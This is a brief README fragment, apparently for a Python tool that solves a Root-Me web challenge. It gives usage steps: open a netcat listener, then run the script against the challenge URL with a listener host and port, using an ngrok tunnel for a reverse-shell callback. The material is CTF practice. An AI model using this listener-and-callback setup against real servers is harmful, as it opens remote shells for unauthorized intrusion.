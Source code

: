 How to use ?

You must open a netcat listener before : nc -lvp Your listening port

Then launch :
python3 main.py -u url -d post_variable -lhost Your listening ip -lport Your listening port

Example : python main.py -u http://challenge01.root-me.org/web-serveur/ch41/check -d nickname -lhost 2.tcp.ngrok.io -lport 11598

